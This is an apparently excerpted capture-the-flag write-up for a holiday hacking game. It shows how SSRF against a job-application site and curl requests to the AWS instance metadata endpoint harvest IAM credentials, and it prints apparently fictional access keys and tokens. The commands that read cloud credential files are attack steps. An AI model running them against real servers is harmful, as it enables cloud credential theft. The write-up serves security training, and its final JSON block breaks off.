 ```json 

$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role ; echo
{
    "Code": "Success",
    "LastUpdated": "2021-12-02T18:50:40Z",
    "Type": "AWS-HMAC",
    "AccessKeyId": "...",
    "SecretAccessKey": "...",
    "Token": "...",
    "Expiration": "2026-12-02T18:50:40Z"
}

$ cat gettoken.sh 
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`

$ source gettoken.sh

$ echo $TOKEN

$ curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/placement/region ; echo
np-north-1
```

Hint from Noxious

> Cloud assets are interesting targets for attackers. Did you know they
> automatically get IMDS access?
>
> I'm very concerned about the combination of SSRF and IMDS access.
>
> Did you know it's possible to harvest cloud keys through SSRF and IMDS attacks?
>
> Dr. Petabyte told us, "anytime you see URL as an input, test for SSRF."
>
> With an SSRF attack, we can make the server request a URL. This can reveal
> valuable data!
>
> The [AWS documentation for IMDS][imds-aws-metadata] is interesting reading.

[imds-aws-metadata]: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html

## Now Hiring!
After navigating to https://apply.jackfrosttower.com/?p=opportunities none of
the images can be displayed.

Looking the request in Burp we see they are retrieving the IMDS responses we saw
in the terminal challenge.

```json
$ https://apply.jackfrosttower.com/images/1.jpg
dynamic
meta-data

All three have the same response
https://apply.jackfrosttower.com/images/2.jpg
https://apply.jackfrosttower.com/images/3.jpg
https://apply.jackfrosttower.com/images/4.jpg
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
```

[param-tampering]: https://owasp.org/www-community/attacks/Web_Parameter_Tampering
[gist-ipv6]: https://gist.github.com/chriselgee/c1c69756e527f649d0a95b6f20337c2f
[ssh-backdoor]: https://attack.mitre.org/techniques/T1098/004/
[hash-extension]: https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks
[hash_extender-github]: https://github.com/iagox86/hash_extender
[splunk-search]: https://hhc21.bossworkshops.io/en-US/app/SA-hhc/search
[elfnp3-gh]: https://github.com/elfnp3
[dvws-orig]: https://github.com/snoopysecurity/dvws-node
[frost-job]: https://apply.jackfrosttower.com/
[rfc3514]: https://datatracker.ietf.org/doc/html/rfc3514
[wireshark-displayfilter]: https://wiki.wireshark.org/DisplayFilters